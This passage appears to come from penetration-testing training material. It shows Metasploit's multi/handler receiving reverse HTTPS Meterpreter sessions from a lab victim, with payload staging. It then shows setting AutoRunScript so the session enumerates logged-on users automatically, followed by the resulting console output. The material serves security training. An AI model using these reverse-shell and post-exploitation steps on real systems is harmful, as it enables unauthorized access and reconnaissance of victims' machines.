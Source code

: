 ```
[*] https://192.168.118.2:443 handling request from 192.168.120.11; (UUID: 77vpdgjz) Staging x86 payload (176249 bytes) ...
[*] Meterpreter session 7 opened (192.168.118.2:443 -> 192.168.120.11:50823) at 2021-01-22 11:36:39 -0500

msf6 exploit(multi/handler) > 
```

The _AutoRunScript_ option is also quite helpful as it will automatically run a script when a meterpreter connection is established. This is very useful during a client-side attack since we may not be available when a user executes our payload, meaning the session could sit idle or be lost. For example, we can configure the gather/enum_logged_on_users module to automatically enumerate logged-in users when meterpreter connects:

```
msf6 exploit(multi/handler) > set AutoRunScript windows/gather/enum_logged_on_users
AutoRunScript => windows/gather/enum_logged_on_users

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.

[*] Started HTTPS reverse handler on https://192.168.118.2:443
msf6 exploit(multi/handler) > 

[*] https://192.168.118.2:443 handling request from 192.168.120.11; (UUID: j0sqkzo0) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (192.168.118.2:443 -> 192.168.120.11:50839) at 2021-01-22 12:17:32 -0500
[*] Session ID 1 (192.168.118.2:443 -> 192.168.120.11:50839) processing AutoRunScript 'windows/gather/enum_logged_on_users'
[*] Running against session 1

Current Logged Users
====================

 SID                                           User
 ---                                           ----
 S-1-5-21-966894886-435473622-1450565287-1001  DESKTOP-6UTT671\Offsec


[+] Results saved in: /root/.msf4/loot/20210122121740_default_192.168.120.11_host.users.activ_586582.txt

Recently Logged Users
=====================

 SID                                           Profile Path
 ---                                           ------------
 S-1-5-18                                      %systemroot%\system32\config\systemprofile
 S-1-5-19                                      %systemroot%\ServiceProfiles\LocalService
 S-1-5-20                                      %systemroot%\ServiceProfiles\NetworkService
 S-1-5-21-966894886-435473622-1450565287-1001  C:\Users\Offsec



msf6 exploit(multi/handler) >
```
